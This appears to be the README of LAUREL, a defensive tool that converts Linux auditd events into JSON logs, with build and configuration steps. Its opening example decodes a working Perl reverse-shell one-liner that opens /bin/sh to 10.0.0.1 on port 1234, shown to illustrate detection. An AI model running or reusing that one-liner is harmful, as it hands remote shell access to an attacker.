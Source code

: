 # Linux Audit – Usable, Robust, Easy Logging

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
At the source.

## Description

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing and transforming them into more data and writing them out as a JSON-based log format, while keeping all information intact that was part of the original audit log. It does not replace _auditd(8)_ as the consumer of audit messages from the kernel. Instead, it uses the _audisp_ ("audit dispatch") interface to receive messages via _auditd(8)_. Therefore, it can peacefully coexist with other consumers of audit events (e.g. some EDR products).

Refer to [JSON-based log format](json-format.md) for a description of the log format.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to [Performance](performance.md) for details.

## Build from source…

_LAUREL_ is written in Rust. To build it, a reasonably recent Rust compiler (we currently use 1.48), `cargo`, and the 
`libacl` library and its header files (Debian: `libacl1-dev`, RedHat: `libacl-devel`) are required.

``` console
$ cargo build --release
$ sudo install -m755 target/release/laurel /usr/local/sbin/laurel
```

## …or use the provided binary

Static Linux/x86_64 binaries are built for tagged releases.

## Configure, use

- Create a dedicated user, e.g.:
    ``` console
    $ sudo useradd --system --home-dir /var/log/laurel --create-home _laurel
    ```
- Configure _LAUREL_: Copy the provided annotated [example](etc/laurel/config.toml) to `/etc/laurel/config.toml` and customize it.
- Register _LAUREL_ as an _audisp_ plugin: Copy the provided [example](etc/audit/plugins.d/laurel.conf) to `/etc/audisp/plugins.d/laurel.conf` or `/etc/audit/plugins.d/laurel.conf` (depending on your _auditd_ version).
- Tell _auditd(8)_ to re-evaluate its configuration
    ``` console
    $ sudo pkill -HUP auditd
    ```

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>
